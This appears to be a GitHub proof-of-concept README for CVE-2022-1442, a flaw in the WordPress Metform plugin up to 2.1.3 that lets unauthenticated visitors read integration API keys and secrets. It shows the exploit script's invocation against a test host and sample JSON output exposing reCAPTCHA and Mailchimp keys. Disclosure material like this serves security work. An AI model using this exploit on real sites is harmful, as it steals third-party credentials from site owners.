 # CVE-2022-1442
WordPress Plugin Metform &lt;= 2.1.3 - Improper Access Control Allowing Unauthenticated Sensitive Information Disclosure

# Description
The is vulnerable to sensitive information disclosure due to improper access control in the ~/core/forms/action.php file which can be exploited by an unauthenticated attacker to view all API keys and secrets of integrated third-party APIs such as PayPal, Stripe, Mailchimp, Hubspot, HelpScout, reCAPTCHA etc.

POC
---
```
 bash metform.sh http://wordpress.lan
{
  "form_title": "New Form # 1691056894",
  "success_message": "Thank you! Form submitted successfully.",
  "capture_user_browser_data": "1",
  "store_entries": "1",
  "entry_title": "Entry # [mf_id]",
  "count_views": "1",
  "redirect_to": "",
  "user_email_subject": "",
  "user_email_from": "",
  "user_email_reply_to": "",
  "user_email_body": "",
  "admin_email_subject": "",
  "admin_email_to": "",
  "admin_email_from": "",
  "admin_email_reply_to": "",
  "admin_email_body": "",
  "mf_mailchimp_list_id": "",
  "mf_slack_webhook": "",
  "mf_recaptcha_version": "recaptcha-v2",
  "mf_recaptcha_site_key": "sfsdffd",
  "mf_recaptcha_secret_key": "sfddsf",
  "mf_recaptcha_site_key_v3": "",
  "mf_recaptcha_secret_key_v3": "",
  "mf_mailchimp_api_key": "asdadasdsaddas",
  "input_names": "Example: [mf-inputname]",
  "ckit_opt": [],
  "aweber_opt": [],
  "mp_opt": []
}
```
